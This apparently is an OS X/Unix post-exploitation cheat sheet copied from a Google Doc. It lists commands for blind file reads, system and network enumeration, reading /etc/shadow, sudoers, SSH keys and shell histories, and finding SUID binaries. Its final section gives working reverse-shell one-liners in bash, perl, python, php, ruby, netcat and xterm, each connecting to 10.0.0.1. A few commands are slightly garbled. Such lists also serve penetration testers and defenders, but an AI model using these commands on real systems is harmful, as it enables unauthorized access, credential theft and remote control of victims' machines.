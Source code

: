 
# OS X Google Doc Content #

The content below is the raw data from the Google Doc that was first used to collect it. Over time, this content will be moved into sub-pages and organized but is placed here, now, so as to be more complete. We apologize for its appearance.

----

## Blind Files 
(things to pull when all you can do is blindly read) LFI/dir traversal
/etc/resolv.conf (everyone always has read on this and it wont trigger an IDS)

## System
<code>uname -a
ps aux
ps -aef
id
arch
w
who -a
gcc -v
mysql --version
perl -v
ruby -v
python --version
df -k
mount
last -a
lastlogin (*bsd)
getenforce  <- does not work on Lion no idea if this work in previous versions
dmesg
lsusb<- does not work on Lion no idea it this work on previous versions
lshw  <- does not work on Lion no idea it this work on previous versions
free -m  <- does not work on Lion no idea it this work on previous versions
du -h --max-depth=1 /
which nmap (see if it's already installed)
locate bin/nmap
which nc (see if it's already installed)
locate bin/<whatever you want>
whoami
jps -l
java -version</code>

## Networking
<code>hostname -f
ip addr show
ifconfig -a
route -n
cat /etc/network/interfaces
iptables -L -n
netstat -anop
netstat -r
netstat -nltupw (root with raw sockets)
arp -a
lsof -nPi</code>

## Configs
<code>ls -aRl /etc/ | awk '$1 ~ /w.$/' | grep -v lrwx 2>/dev/null
cat /etc/issue{,.net}
cat /etc/passwd
cat /etc/shadow (gotta try..)
cat /etc/shadow~ # (sometimes there when edited with gedit)
cat /etc/master.passwd
cat /etc/group
cat /etc/hosts
cat /etc/crontab
cat /etc/sysctl.conf
for user in $(cut -f1 -d: /etc/passwd); do echo $user; crontab -u $user -l; done # (Lists all crons)
cat /etc/resolv.conf
cat /etc/samba/smb.conf
pdbedit -L -w
pdbedit -L -v
cat /etc/exports
cat /etc/auto.master
cat /etc/auto_maste
cat /etc/fstab
cat /etc/exports
find /etc/sysconfig/ -type f -exec cat {} \;
cat /etc/sudoers</code>

## Package Sources
<code>cat /etc/apt/sources.list
ls -l /etc/yum.repos.d/
cat  /etc/yum.conf</code>

## Finding Important Files
<code>find /var/log -type f -exec ls -la {} \;
ls -alhtr /mnt
ls -alhtr /Volumes
ls -alhtr /tmp
ls -alhtr /home
ls /Users/*/.ssh/*
find /home -type f -iname '.*history'
ls -lart /etc/rc.d/
locate tar | grep [.]tar$
locate tgz | grep [.]tgz$
locate sql l grep [.]sql$
locate settings | grep [.]php$
locate config.inc | grep [.]php$
ls /Users/*/id*
locate .properties | grep [.]properties # java config files
locate .xml | grep [.]xml # java/.net config files
find /sbin /usr/sbin /opt /lib `echo $PATH | 'sed s/:/ /g'` -perm -4000 # find suids</code>

## Per User
<code>ls -alh /Users/*/
ls -alh /Users/*/.ssh/
cat /Users/*/.ssh/authorized_keys
cat /Users/*/.ssh/known_hosts
cat /Users/*/.*hist*
find -type f /Users/*/.vnc /Users/*/.subversion
grep ^ssh /Users/*/.*hist*
grep ^telnet `/Users/*/.*hist*
grep ^mysql /Users/*/.*hist*
cat /Users/*/.viminfo
sudo -l # if sudoers is not readable, this sometimes works per user
crontab -l</code>

## Priv (sudo'd or as root)
<code>ls -alh /root/
cat /etc/sudoers
cat /etc/shadow
cat /etc/master.passwd # OpenBSD
cat /var/spool/cron/crontabs/*
lsof -nPi
ls /Users/*/.ssh/*</code>

## Reverse Shell
<code>starting list sourced from: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 # No /dev/tcp on Mac OS X
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
nc -e /bin/sh 10.0.0.1 1234 # note need -l on some versions, and many does NOT support -e anymore
rm /tmp/;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
xterm -display 10.0.0.1:1
Listener-     Xnest :1
Add permission to connect-  xhost +victimIPf</code>
